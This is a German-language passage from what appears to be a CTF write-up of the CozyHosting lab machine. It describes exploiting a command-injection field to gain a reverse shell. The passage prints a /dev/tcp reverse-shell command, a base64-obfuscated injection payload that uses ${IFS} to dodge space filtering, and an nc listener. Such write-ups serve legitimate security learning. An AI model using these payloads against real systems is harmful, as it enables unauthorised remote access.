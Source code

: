 <img src="../Screenshots/Screenshot_CozyHosting_4.png" width=800>


Während meiner Untersuchung stieß ich auf eine Eingabemöglichkeit, die direkte Shell-Ausführung erlaubte. Mein nächster Schritt war also, eine Reverse Shell einzurichten.

## Shell Zugriff

Für geeignete Reverse Shell-Befehle konsultierte ich die Sammlung auf [dieser GitHub-Seite](https://github.com/six2dez/pentest-book/blob/master/exploitation/reverse-shells.md). Der Befehl, den ich auswählte, war:

`sh -i >& /dev/tcp/IP_ADRESS/8888 0>&1`

Allerdings stellte ich beim Verwenden von BurpSuite fest, dass Leerzeichen in der Payload zu Fehlern führten. Um dieses Problem zu umgehen, beschloss ich, die Shell-Befehle mittels Base64 zu obfuskieren:

```shell
echo "`sh -i >& /dev/tcp/IP_ADRESS/8888 0>&1`" | base64 
```

Das Ergebnis packte ich in den folgenden Ausdruck:

```shell
;echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash;
```

Daraus ergab sich die finale Payload:

```PAYLOAD
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjI5Lzg4ODggMD4mMQ"|base64${IFS}-d|bash;
```

Nachdem ich diese Payload abgeschickt hatte, startete ich `nc -lvnp 8888` und freute mich, eine funktionierende Shell in den Händen zu halten.

